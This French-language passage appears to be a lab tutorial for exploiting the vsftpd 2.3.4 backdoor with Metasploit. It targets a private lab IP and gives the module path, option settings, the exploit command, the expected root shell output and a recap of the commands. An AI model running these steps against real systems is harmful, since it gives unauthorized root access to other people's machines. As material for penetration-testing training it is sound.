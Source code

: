 Choisissez :

```plaintext
exploit/unix/ftp/vsftpd_234_backdoor
```

### 📥 Étape 4 : Charger le module

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

### ⚙️ Étape 5 : Afficher et définir les options

```bash
show options
set RHOSTS 192.168.56.101
```

Ajustez l’IP si nécessaire.

### 🎯 Étape 6 : Lancer l’exploit

```bash
exploit
```

Si la machine est vulnérable, vous aurez un shell root immédiatement.

### ✅ Résultat attendu :

```bash
[*] Command shell session 1 opened...
```

Vous pouvez taper `id` ou `uname -a` pour vérifier que vous êtes bien sur la machine distante.

### 🧹 Étape 7 : Fermer la session

```bash
exit
```

---

## 🔁 Recapitulatif des commandes utilisées

```bash
msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.101
show options
exploit
id
uname -a
exit
```

---
